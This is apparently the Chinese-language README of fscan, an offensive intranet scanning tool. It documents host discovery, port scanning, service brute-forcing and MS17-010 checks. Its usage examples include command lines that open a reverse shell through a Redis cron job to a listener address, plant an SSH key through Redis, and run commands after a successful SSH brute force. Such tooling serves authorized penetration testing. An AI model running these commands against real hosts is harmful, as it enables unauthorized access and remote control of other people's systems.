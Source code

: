 # fscan

# 简介
一款内网扫描工具，方便一键大保健。  
支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写私钥、计划任务反弹shell、读取win网卡信息等。  
趁着最近有空，用go把f-scrack重构了一遍。使用go来编写，也有更好的扩展性及兼容性。  
还在逐步增加功能，欢迎各位师傅提意见。


## why
为什么有LadonGo、x-crack 、tscan、Gscan 这些工具了还要写fscan  

答：  
   因为用习惯了f-scrack，习惯一条命令跑完所有模块，省去一个个模块单独调用的时间，当然我附加了-m 指定模块的功能。

## 最近更新
[+] 2020/12/03 优化ip段处理模块,新增支持192.168.1.1-192.168.255.255
[+] 2020/11/17 增加-ping 参数,作用是存活探测模块用ping代替icmp发包。   
[+] 2020/11/17 增加WebScan模块,新增shiro简单识别。https访问时,跳过证书认证。将服务模块和web模块的超时分开,增加-wt 参数(WebTimeout)。    
[+] 2020/11/16 对icmp模块进行优化,增加-it 参数(IcmpThreads),默认11000,适合扫B段  
[+] 2020/11/15 支持ip以文件导入,-hs ip.txt,并对去重做了处理

## usege
简单用法
``` 
go run main.go -h 192.168.1.1/24
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写私钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
```
```
-h 192.168.1.1/24 (C段)  
-h 192.168.1.1/16 (B段)
-h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
-hf ip.txt  (以文件导入)
```


完整参数
```
  -c string
        exec command (ssh)
  -h string
        IP address of the host you want to scan,for example: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -hf string
        host file, -hs ip.txt
  -it int
        Icmp Threads nums (default 11000)
  -m string
        Select scan type ,as: -m ssh (default "all")
  -no
        not to save output log
  -np
        not to ping
  -o string
        Outputfile (default "result.txt")
  -p string
        Select a port,for example: 22 | 1-65535 | 22,80,3306 (default "21,22,23,80,135,443,445,1433,1521,3306,5432,6379,7001,8080,8089,9000,9200,11211,27017")
  -ping
        using ping replace icmp
  -pwd string
        password
  -pwdf string
        password file
  -rf string
        redis file to write sshkey file (as: -rf id_rsa.pub)
  -rs string
        redis shell to write cron file (as: -rs 192.168.1.1:6666)
  -t int
        Thread nums (default 200)
  -time int
        Set timeout (default 3)
  -user string
        username
  -userf string
        username file
  -wt int
        Set web timeout (default 3)

```

## 运行截图

`fscan.exe -h 192.168.x.x  (全功能、ms17010、读取网卡信息)`
![](image/1.png)

![](image/4.png)

`fscan.exe -h 192.168.x.x -rf id_rsa.pub (redis 写私钥)`
![](image/2.png)

`fscan.exe -h 192.168.x.x -c "whoami;id" (ssh 命令)`
![](image/3.png)


## 未来计划
[*] 合理输出当前扫描进度  
[*] 增加内网常见高危漏洞  
[*] 增加高危web漏洞扫描  
[*] 师傅们觉得有必要加的漏洞，也可以提issue  


## 参考链接
https://github.com/Adminisme/ServerScan  
https://github.com/netxfly/x-crack  
https://github.com/hack2fun/Gscan  
https://github.com/k8gege/LadonGo   
